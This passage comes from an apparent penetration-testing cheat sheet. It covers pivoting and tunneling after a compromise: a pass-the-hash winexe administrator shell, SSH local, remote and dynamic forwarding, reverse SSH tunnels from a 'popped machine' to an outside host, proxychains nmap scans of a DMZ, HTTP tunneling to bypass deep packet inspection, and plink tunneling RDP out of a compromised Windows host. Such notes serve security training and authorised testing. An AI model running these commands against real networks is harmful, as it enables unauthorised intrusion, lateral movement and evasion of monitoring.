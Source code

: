         `pth-winexe -U administrator //$ip cmd`

# [](#networking-pivoting-and-tunneling)Networking, Pivoting and Tunneling

*   Port Forwarding - accept traffic on a given IP address and port and redirect it to a different IP address and port

    *   `apt-get install rinetd`

    *   `cat /etc/rinetd.conf`

            # bindadress bindport connectaddress connectport
            w.x.y.z 53 a.b.c.d 80

*   SSH Local Port Forwarding: supports bi-directional communication channels

    *   `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`
*   SSH Remote Port Forwarding: Suitable for popping a remote shell on an internal non routable network

    *   `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`
*   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local attacking box to tunnel ALL incoming traffic to ANY host in the DMZ network on ANY PORT

    *   `ssh -D <local proxy port> -p <remote port> <target>`
*   Proxychains - Perform nmap scan within a DMZ from an external computer

    *   Create reverse SSH tunnel from Popped machine on :2222

        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com` `ssh -f -N -R 2222:<local host>:22 root@<remote host>`

    *   Create a Dynamic application-level port forward on 8080 thru 2222

        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`

    *   Leverage the SSH SOCKS server to perform Nmap scan on network using proxy chains

        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`

*   HTTP Tunneling

    `nc -vvn $ip 8888`

*   Traffic Encapsulation - Bypassing deep packet inspection

    *   http tunnel  
        On server side:  
        `sudo hts -F <server ip addr>:<port of your app> 80` On client side:  
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`
*   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your network

    *   Tunnel on port 22

        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`

    *   Port 22 blocked? Try port 80? or 443?
